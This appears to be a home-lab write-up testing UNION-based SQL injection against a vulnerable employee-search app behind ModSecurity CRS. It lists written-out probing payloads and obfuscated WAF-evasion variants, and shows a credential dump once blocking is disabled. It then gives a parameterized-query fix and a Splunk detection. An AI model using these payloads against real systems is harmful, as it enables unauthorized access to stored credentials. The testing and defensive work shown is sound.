


# SQL Injection, Part 1: UNION-Based — Testing the Full Attack Methodology Against CRS

## Setup

`/employees/search?q=` had already been confirmed vulnerable to SQL injection at the source-code level (a raw, string-formatted query: `f"SELECT id, name, department, email FROM employees WHERE name LIKE '%{q}%'"`), and the earliest [baseline testing](./3-Baseline%20Testing.md) had shown ModSecurity blocking basic SQLi payloads outright. This phase goes further than "the WAF blocks it" — it walks through the actual methodology a real attacker would use to exploit UNION-based SQLi, testing whether each step of that methodology, not just the first obvious payload, gets through.

## The Real Methodology, Not Just Quoting Tricks

Exploiting UNION-based SQLi properly requires three sequential steps, because a `UNION SELECT` only works if it returns the same number of columns as the original query — an attacker doesn't start by knowing that number (in a real black-box test, they wouldn't know the `users` table's schema either, unlike this lab where it's already known from the source):

1. **Find the column count** — via `ORDER BY` (incrementing until an error appears) or `UNION SELECT NULL,NULL,...` (incrementing until the column count matches and no error occurs)
2. **Find each column's data type** — substituting a string literal into each position one at a time to see which ones accept text versus numbers
3. **Find which columns actually render on the page** — of the columns that work, which ones show up in the HTML response and are therefore useful for exfiltrating data

Every one of these steps was tested independently, not just the "obvious" final UNION payload.

## What Was Tested

**Step 1 — column count discovery:**
```
q=x' ORDER BY 1--    q=x' ORDER BY 2--    q=x' ORDER BY 3--    q=x' ORDER BY 4--    q=x' ORDER BY 5--
```
All five blocked with `403`, including the lowest ones — meaning even a single, syntactically minimal `ORDER BY` clause with no comparison operators, no `UNION`, and no obviously "attack-shaped" keyword was caught.

**Classic and obfuscated UNION payloads** (9 variants tested earlier, expanded further here):
```
' UNI/**/ON SEL/**/ECT id,username,password,role FROM users--
' uNioN sElEct id,username,password,role FROM users--
'%09UNION%09SELECT...   (tab instead of space)
'%0aUNION%0aSELECT...   (newline instead of space)
%2527%2520UNION...      (double URL encoding)
' UNION SELECT 1e0,...  (scientific notation obfuscation)
'/*!UNION*//*!SELECT*/id,username,password,role FROM users--
' UNION SELECT(id),(username),(password),(role) FROM users--
```
All blocked. HTTP Parameter Pollution (`?q=nonexistent&q='UNION SELECT...`) was also tried as a way to smuggle the payload past a WAF that might only inspect the first occurrence of a parameter — also blocked.

**Boolean logic without UNION at all:**
```
q=x' AND 1=1--    q=x' AND 1=2--
```
Both blocked, despite containing no `UNION`, no `SELECT`, and no obviously "attacking" keyword — just a quote-break followed by a comparison.

**Bare syntax-breaking, no operators at all:**
```
q=x'--
```
Blocked. This is about as minimal as a SQLi probe can get: close the string, comment out the rest.

**Step 2 — data type / column position discovery:**
```
q=x' UNION SELECT 'X',NULL,NULL,NULL--
q=x' UNION SELECT NULL,'X',NULL,NULL--
q=x' UNION SELECT NULL,NULL,'X',NULL--
q=x' UNION SELECT NULL,NULL,NULL,'X'--
q=x' UNION SELECT sqlite_version(),NULL,NULL,NULL--   (SQLite's equivalent of MySQL's @@version)
```
All blocked — Step 2 of the methodology was never reachable, because Step 1's `UNION SELECT` shape is caught regardless of what's inside the parentheses.

**Control test — legitimate input with no SQL context:**
```
q=O'Brien
```
Returned `200`, normal (empty) search result. This is the critical comparison point: a bare apostrophe with no SQL syntax following it was correctly treated as harmless. The WAF isn't reacting to quote characters in general — it's reacting specifically to a quote followed by continuing SQL grammar.

## What's Actually Blocking This: Six Rules, Not One

Pulling every SQLi-related rule ID that fired across this test session:

| Rule ID | Description |
|---|---|
| 942100 | SQL Injection Attack Detected via libinjection |
| 942190 | Detects SQL code execution and information gathering attempts |
| 942270 | Looking for basic sql injection. Common attack string for mysql, oracle and others |
| 942360 | Detects concatenated basic SQL injection and SQLLFI attempts |
| 942500 | MySQL in-line comment detected |
| 949110 | Inbound Anomaly Score Exceeded (fired with totals of 8, 13, 18, 20, 23, 28 across different payloads) |

This is worth being precise about: no single rule is "the SQLi blocker." CRS uses an anomaly-scoring model — individual rules (942100, 942270, 942360, etc.) each contribute points to a running total when they match a request, and a separate evaluation rule (949110) compares that total against a threshold (5 in this deployment) to decide whether to actually return a 403. Different payloads triggered different combinations of the six rules above, landing on different total scores — but every single one comfortably cleared the threshold. `942500` ("MySQL in-line comment detected") firing on this app is a small reminder that CRS's signature set isn't backend-aware — it's written broadly enough to catch attack shapes across MySQL, Oracle, and others, and happened to fire here even though this application runs SQLite, whose comment obfuscation attempt still matched the same shape.

`942100` (libinjection) is the most interesting of the six on its own: unlike the others, it's not a regex signature matching literal strings — it's a real SQL tokenizer/parser that recognizes valid SQL grammar following a broken string context, which is why it caught things like a bare `ORDER BY 1` or an empty `x'--` that contain no traditionally "dangerous" keyword at all. The control test (`O'Brien`, no false positive) shows this precision directly: it's not flagging quotes, it's flagging quotes followed by SQL.

## Where This Stands

Every step of the UNION-based methodology — column count discovery, the UNION payload itself in nine+ syntactic disguises, boolean-only variants, and bare syntax-breaking — was blocked. Data type discovery (Step 2) and column-visibility discovery (Step 3) were never reachable, because Step 1 is caught unconditionally regardless of what the UNION's column list contains. Against this specific technique class, CRS's layered rule set (topped by libinjection's grammar-aware detection) held up completely, with no false positive against genuinely benign apostrophe use.

---

# SQL Injection, Part 2: Proving the Vulnerability, Then Fixing the Right Layer

## Why This Phase Exists

Every SQLi test so far had one property in common: the WAF was always in the way. Every payload — from the straightforward `' OR '1'='1` to nine obfuscated UNION variants to bare syntax-breaking — got a `403` before ever reaching the application. That's a meaningful result about the WAF, but it leaves an important question unanswered: was the underlying code actually vulnerable, or was ModSecurity blocking something that wouldn't have worked anyway? Blocking is only impressive relative to a real threat behind it.

## Step 1: Prove the Vulnerability Is Real

ModSecurity was switched to `DetectionOnly` temporarily — the same mode [found misconfigured in an earlier phase](./3-Baseline%20Testing.md), this time used deliberately as a controlled test condition:

```bash
sudo sed -i 's/SecRuleEngine On/SecRuleEngine DetectionOnly/' /etc/modsecurity/modsecurity.conf
sudo service nginx reload
```

With blocking disabled, the exact UNION payload that had been failing against the WAF was replayed:

```
GET /employees/search?q=x'%20UNION%20SELECT%20id,username,password,role%20FROM%20users--%20
```

Result: a `200` response with the search-results table populated by rows from the `users` table instead of `employees` — full usernames and **plaintext passwords** for every account in the system:

```
admin / admin123
hr_manager / hrpass2026
analyst / analyst!1
```



This confirms the vulnerability was never theoretical. The application's own query construction — `f"SELECT id, name, department, email FROM employees WHERE name LIKE '%{q}%'"` — had zero protection against this on its own. Every block seen in the previous phase was entirely dependent on ModSecurity standing between the request and this code.

## Step 2: Fix the Actual Vulnerability

The fix isn't a better WAF rule — it's removing the reason a WAF rule was ever load-bearing in the first place. SQL injection exists because user input gets interpreted as part of the SQL command rather than as data. Parameterized queries fix this at the source by keeping those two things separate at the driver level:

```python
# Before:
query = f"SELECT id, name, department, email FROM employees WHERE name LIKE '%{q}%'"
rows = db.execute(query).fetchall()

# After:
query = "SELECT id, name, department, email FROM employees WHERE name LIKE ?"
rows = db.execute(query, (f"%{q}%",)).fetchall()
```

With a bound parameter, whatever the user submits — quotes, `UNION`, comment sequences, anything — is handed to SQLite as a literal string to search for, never as SQL syntax to execute. There's no string being assembled and interpreted; the query structure is fixed before the value is ever attached to it.

## Step 3: Verify at the Layer That Actually Matters

The real test isn't "does the WAF still block it" — that was already true before this fix and doesn't prove anything changed at the code level. The real test is whether the vulnerability survives with the WAF turned off, since that's the only way to isolate what the application's own code is actually doing.

Same `DetectionOnly` state, same exact payload, after the fix:

```
GET /employees/search?q=x'%20UNION%20SELECT%20id,username,password,role%20FROM%20users--%20
```

Result: `200 OK`, empty results table. The entire query — quote, `UNION`, table name, comment — was treated as a literal search string with no employee named that, so nothing matched. No usernames, no passwords, nothing. The exact same request that had dumped the `users` table minutes earlier now returns nothing, with the WAF providing precisely as much protection as before: none, because it wasn't asked to.


ModSecurity was then restored to blocking mode as the final step (`SecRuleEngine On`), returning the deployment to its normal defense-in-depth posture — WAF and application-level fix both active, neither one load-bearing on its own.

## Why This Sequence Matters

This is the same lesson the path traversal phase already established, applied here with a cleaner before/after: a WAF blocking every payload you throw at it tells you the WAF is working, not that the underlying code is safe. The only way to actually know is to test with the WAF removed from the equation — which is uncomfortable to do in a real environment (you're deliberately exposing a live vulnerability, even briefly, in a lab), but is the only test that answers the real question.

Practically, this also means the fix built here doesn't depend on ModSecurity remaining correctly configured, up to date, or even enabled. If a future misconfiguration reintroduces a `DetectionOnly`-style mistake, or if some future payload defeats libinjection the way the path-traversal absolute-path trick defeated the LFI signature, this specific endpoint no longer cares — the vulnerability isn't waiting behind the WAF anymore, because it isn't there.

## Takeaways

- A WAF that blocks 100% of your test payloads is evidence the WAF is well-tuned against those payloads — it is not evidence the application is safe. The two claims only become the same thing once you've verified the second one directly, which requires testing without the WAF in the way.
- Fixing SQL injection means separating code from data at the query-construction layer (parameterization), not writing better input filtering. Filtering is what a WAF does from the outside; parameterization is what removes the vulnerability from the inside.
- This app now has the same posture the IDOR and brute-force fixes ended up with: WAF and application-level control both present, each catching what the other might miss, with neither treated as sufficient on its own.

---

# SQL Injection, Part 3: Detecting a Silently Bypassed WAF in Splunk

While proving the vulnerability was real in Step 1, a question came up: if this happened for real — a WAF quietly left in `DetectionOnly`, or genuinely bypassed by some future technique — would there be any way to notice from the logs alone, without knowing in advance that something was wrong?

The answer turned out to be yes, and it came from a detail in the audit log that initially looked like it shouldn't have been there. This lab's ModSecurity config restricts audit logging to relevant statuses only (`SecAuditEngine RelevantOnly`, `SecAuditLogRelevantStatus "^(?:5|4(?!04))"` — nominally only 4xx/5xx responses). The `DetectionOnly` test above returned `200` for a request that matched multiple SQLi rules and blew well past the anomaly-score threshold. By that filter's literal wording, it shouldn't have been logged at all. It was — because ModSecurity's relevance filtering appears to key off a rule's *internal disposition* (would this have been denied, based on the anomaly score threshold) rather than the request's *actual outgoing status code*. In other words: the audit log still knows a request "should" have been blocked even when blocking is turned off.

That's exactly the signal needed to detect this class of failure automatically. First, `web_modsec`'s `props.conf` was extended (on the Windows indexer, alongside the existing `LINE_BREAKER` config from the very first phase of this lab) to extract structured fields at search time instead of writing one-off `rex` expressions for every query:

```
[modsecurity]
LINE_BREAKER = ([\r\n]+)---[a-zA-Z0-9]+---A--
SHOULD_LINEMERGE = false
TIME_PREFIX = ^\[
TIME_FORMAT = %d/%b/%Y:%H:%M:%S %z
MAX_TIMESTAMP_LOOKAHEAD = 30
EXTRACT-mod_uri = uri \"(?<uri>[^\"]+)\"
EXTRACT-anomaly_score = Total Score: (?<anomaly_score>\d+)
EXTRACT-unique_id = unique_id \"(?<unique_id>[^\"]+)\"
EXTRACT-src_ip = ^\[\d+/\w+/\d+:\d+:\d+:\d+\s[+-]\d+\]\s\S+\s(?<src_ip>[\d.]+)\s\d+\s[\d.]+\s\d+
EXTRACT-rule_id = \[id\s\"(?<rule_id>\d+)\"\]
EXTRACT-rule_msg = msg\s\"(?<rule_msg>[^\"]+)\"
EVAL-was_blocked = if(match(_raw, "Access denied"), "blocked", "not_blocked")
```

With `uri`, `src_ip`, `anomaly_score`, and a computed `was_blocked` field available on every search without writing a single `rex`, the detection itself is a two-line filter:

```
index=web_modsec earliest=-30m anomaly_score>=5 was_blocked="not_blocked"
| table _time, uri, src_ip, anomaly_score, rule_id, q
```



```
index=web_modsec earliest=-30m anomaly_score>=5
| table _time, uri, src_ip, anomaly_score, rule_id, q
```


Run against the `DetectionOnly` test traffic, this correctly isolated every request that matched a blocking-threshold rule (anomaly scores of 18–20, well past the 5 threshold) but was never actually denied — the exact signature of a WAF that's evaluating traffic correctly but not enforcing the result, whether from a `DetectionOnly` misconfiguration or a rule-level bypass that still trips *some* signature without triggering the final deny action. Removing the `was_blocked="not_blocked"` filter confirmed both classes of event (`blocked` and `not_blocked`) are present and correctly distinguished side by side in the same index.

This is a detection *of the WAF's own operating state*, not of any specific attacker — its entire purpose is to answer "is my WAF actually still doing what I think it's doing" without a human having to notice a config drifted back to `DetectionOnly`, the way the very first baseline-testing phase of this lab did only by accident.

## Takeaways

- Even in `DetectionOnly` mode, ModSecurity's audit log still records what it *would* have blocked — a detail worth knowing before assuming "not blocking" means "not logging either." That gap between disposition and enforcement is exactly what a "is my WAF actually enforcing" detection can be built on.
- A WAF that blocks 100% of your test payloads is evidence the WAF is well-tuned against those payloads — it is not evidence the application is safe. The two claims only become the same thing once you've verified the second one directly, which requires testing without the WAF in the way.
- Fixing SQL injection means separating code from data at the query-construction layer (parameterization), not writing better input filtering. Filtering is what a WAF does from the outside; parameterization is what removes the vulnerability from the inside.
- This app now has the same posture the IDOR and brute-force fixes ended up with: WAF and application-level control both present, each catching what the other might miss, with neither treated as sufficient on its own.
